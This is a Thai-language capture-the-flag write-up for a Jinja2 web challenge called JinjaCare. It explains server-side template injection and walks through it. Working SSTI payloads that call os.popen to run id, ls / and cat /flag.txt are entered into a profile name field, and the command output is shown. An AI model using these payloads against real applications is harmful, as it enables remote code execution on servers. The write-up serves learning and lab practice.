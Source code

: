 Hi, Can you speak Thai ?

Yes, I can speak Thai.

มา วันนี้เราจะมาทำข้อ JinjaCare หมวด Web ระดับ Very easy


Step 1 สร้างบัญชี
เขาจะให้ IP มา คือ 94.237.121.100:50594 จากนั้นเราก็เข้าไปที่ Sign In แล้วเลือก create a new account ในส่วนของข้อมูลที่ใช้สมัคร เราสามารถสมมติขึ้นมาเองได้เลย


Step 2 49

2.1 ไปที่ Personal Info ใส่วันเดือนปีเกิด ในส่วนนี้เราสามารถปลอมแปลงได้ 

2.2 ไปที่ Full Name เปลี่ยนข้อมูลจากชื่อเป็น {{7*7}} กด Save Changes

2.3 กลับไปที่ Dashboard กด Download Certificate

2.4 สังเกตตรง Name มันจะเป็น 49 ถ้าไม่ใช่ 49 ให้กลับไปดูตรง Full Name ในหน้า Personal Info ใหม่


Step 3 id
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2---remote-command-execution
```
นี่คือลิงก์เกี่ยวกับ Server Side Template Injection

3.1 ไปที่ Personal Info และไปที่ Full Name เปลี่ยนข้อมูลจาก
```
{{7*7}}
```
เป็น
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
3.2 กลับไปที่ Dashboard กด Download Certificate

3.3 สังเกตตรง Name มันจะเปลี่ยนเป็น uid=0(root) gid=0(root) groups=0(root)


Step 4 ls

4.1 ไปที่ Personal Info และไปที่ Full Name เปลี่ยนข้อมูลจาก
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }} 
```
เป็น 
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls /').read() }}
```
4.2 สังเกตตรง Name มันจะเปลี่ยนเป็น app bin boot dev etc flag.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var


Step 5 cat flag.txt

5.1 ไปที่ Personal Info และไปที่ Full Name เปลี่ยนข้อมูลจาก
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls /').read() }}
```
เป็น
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```
5.2 สังเกตตรง Name มันจะเปลี่ยนเป็น HTB{XXXXX}
XXXXX ไม่ใช่ flag นะ คือปิดไว้ จะได้ทำเอง

อธิบาย SSTI
- SSTI หรือ Server-Side Template Injection คือช่องโหว่ที่เกิดขึ้นเมื่อแอปพลิเคชันนำข้อมูลจากผู้ใช้ไปใส่ลงใน template ของฝั่งเซิร์ฟเวอร์โดยตรง ทำให้ข้อความนั้นถูกตีความหรือประมวลผลเป็นโค้ดของ template engine แทนที่จะเป็น "ข้อมูล" แบบนิ่ง (literal) ผลคือผู้โจมตีสามารถทำให้ template engine ประมวลผลนิพจน์ที่เขาส่งมาผ่านอินพุต และนั่นอาจนำไปสู่การเปิดเผยข้อมูลภายใน (ข้อมูลความลับ) หรือ การรันโค้ดบนเซิร์ฟเวอร์ (RCE) ขึ้นอยู่กับความสามารถของ engine
- Template engine คือ ซอฟต์แวร์ที่ช่วยให้นักพัฒนาเว็บสามารถแยกส่วนของโค้ด HTML ออกจากข้อมูลแบบไดนามิกได้ โดยจะประมวลผลเทมเพลตและแทนที่ตัวแปรต่างๆ ด้วยข้อมูลจริงก่อนที่จะสร้างเป็น HTML สุดท้าย การทำเช่นนี้ช่วยเพิ่มความสามารถในการอ่าน, นำโค้ดกลับมาใช้ใหม่, และจัดการโค้ดให้ง่ายขึ้น
- uid=0(root) gid=0(root) groups=0(root) มันหมายความว่า กระบวนการหรือเชลล์นั้นกำลังรันด้วยสิทธิ์ของผู้ใช้ root (ผู้ดูแลระบบ)
  อธิบายแต่ละส่วนแบบชัด ๆ
  uid=0(root) — UID (user identifier) = 0 ซึ่งตามมาตรฐานคือ ผู้ใช้ root (superuser)
  gid=0(root) — GID (group identifier) = 0 ซึ่งคือกลุ่ม root
  groups=0(root) — รายชื่อกลุ่มที่ผู้ใช้นั้นเป็นสมาชิก (ในที่นี้เป็นเพียงกลุ่ม root)
  ความหมายเชิงปฏิบัติ
  ถ้าคุณเห็นสตริงนี้สำหรับเชลล์หรือ process แปลว่า process นั้นมีสิทธิ์เต็ม (privileged) สามารถอ่านหรือเขียนไฟล์สำคัญของระบบ, เปลี่ยนการตั้งค่าระบบ, ติดตั้ง/ลบแพ็กเกจ, เปลี่ยนสิทธิ์ผู้ใช้ ฯลฯ โดยสรุปคือสามารถทำอะไรก็ได้บนเครื่อง (administrator powers)
  เป็นสถานะที่อันตรายถ้ากำลังรันโปรแกรมไม่เชื่อถืออยู่ใน context นี้ เพราะจะทำให้มัลแวร์หรือคำสั่งผิดพลาดทำความเสียหายได้มาก
- ถ้าแอปเอา "{{7*7}}" เข้าไปและ engine ประมวลเป็น 49 แปลว่าระบบตีความข้อมูลเป็นโค้ด นี่ไม่ใช่การปฏิบัติต่อข้อมูลแบบนิ่งและเสี่ยงเกิด SSTI

ศัพท์น่าสงสัย

"ข้อมูล" แบบนิ่ง (literal) คือ ค่าข้อมูลที่ถูกกำหนดไว้อย่างชัดเจนและคงที่ในโค้ดหรือเทมเพลตนั้น ๆ โดยตรง ไม่ใช่ค่าที่ได้จากการคำนวณ ตัวแปร หรือการดึงข้อมูลจากแหล่งภายนอก
ลักษณะของข้อมูลแบบนิ่ง (Literal Data) ข้อมูลแบบนิ่งจะถูกตีความตามที่เห็น โดยไม่ต้องมีการประมวลผลหรือค้นหาเพิ่มเติม มักเป็นประเภทข้อมูลพื้นฐาน เช่น Literal String, Literal Number เป็นต้น
ตัวอย่าง:

ลิงก์ข้อมูลเพิ่มเติม
1. Template engine
```
https://medium.com/@itz.dhruv/comprehensive-guide-to-template-engines-in-node-js-with-express-c953a47dfa9d
```
2. ChatGPT และ Gemini สามารถนำข้อมูลไปให้มันขยายความได้
